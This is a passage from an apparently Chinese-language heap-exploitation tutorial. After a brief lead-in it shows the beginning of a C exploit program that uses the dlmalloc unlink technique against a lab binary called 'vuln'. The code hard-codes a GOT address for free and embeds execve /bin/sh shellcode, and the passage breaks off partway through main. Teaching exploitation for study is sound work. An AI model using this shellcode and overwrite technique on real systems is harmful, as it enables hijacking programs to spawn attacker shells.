 ![](../pictures/heapoverflow2.png)  

理解了unlink技术之后，我们就可以写漏洞利用程序了。  

``` c
/* Program to exploit 'vuln' using unlink technique.
 */
#include <string.h>
#include <unistd.h>
#define FUNCTION_POINTER ( 0x0804978c )         //Address of GOT entry for free function obtained using "objdump -R vuln".
#define CODE_ADDRESS ( 0x0804a008 + 0x10 )      //Address of variable 'first' in vuln executable. 
#define VULNERABLE "./vuln"
#define DUMMY 0xdefaced
#define PREV_INUSE 0x1
char shellcode[] =
        /* Jump instruction to jump past 10 bytes. ppssssffff - Of which ffff would be overwritten by unlink function
        (by statement BK->fd = FD). Hence if no jump exists shell code would get corrupted by unlink function. 
        Therefore store the actual shellcode 12 bytes past the beginning of buffer 'first'*/
        "\xeb\x0assppppffff"
        "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
int main( void )
{
        char * p;
        char argv1[ 680 + 1 ];
        char * argv[] = { VULNERABLE, argv1, NULL };
        p = argv1;
        /* the fd field of the first chunk */
```